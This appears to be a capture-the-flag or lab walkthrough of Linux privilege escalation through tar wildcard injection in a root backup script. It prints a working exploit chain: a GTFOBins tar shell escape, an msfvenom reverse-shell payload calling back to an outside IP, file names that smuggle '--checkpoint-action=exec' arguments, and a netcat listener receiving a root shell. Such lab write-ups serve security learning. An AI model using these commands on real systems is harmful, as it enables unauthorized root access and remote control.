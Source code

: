 ## #1 - Read and follow along with the above.

From GTFOBins (https://gtfobins.github.io/gtfobins/tar/) about `tar`:

~~~
Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
~~~

The script is using a wildcard (`*`) to tar all files in the home:

```bash
$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

We'll take advantage of it to create files that will be like arguments passed to the tar command.

On the workstation:

```bash
$ /opt/metasploit-framework/bin/msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.9.81 LPORT=4444 -f elf -o shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell
$ scp shell user@10.10.51.207:
```

Now on the server:

```bash
user@debian:~$ cd
user@debian:~$ ls -l
total 16
-rw-r--r-- 1 user user    0 May 31 16:39 --checkpoint=1
-rw-r--r-- 1 user user    0 May 31 16:39 --checkpoint-action=exec=shell
-rw-r--r-- 1 user user  212 May 15  2017 myvpn.ovpn
-rwxr-xr-x 1 user user   64 May 31 16:24 overwrite.sh
-rwxr-xr-x 1 user user  194 May 31 16:37 shell
drwxr-xr-x 8 user user 4096 May 15 06:35 tools
user@debian:~$ chmod +x shell 
user@debian:~$ touch ~/--checkpoint=1
user@debian:~$ touch ~/--checkpoint-action=exec=shell
```

Our reverse shell got a hit:

```bash
$ rlwrap nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.51.207.
Ncat: Connection from 10.10.51.207:39219.
id
uid=0(root) gid=0(root) groups=0(root)
```
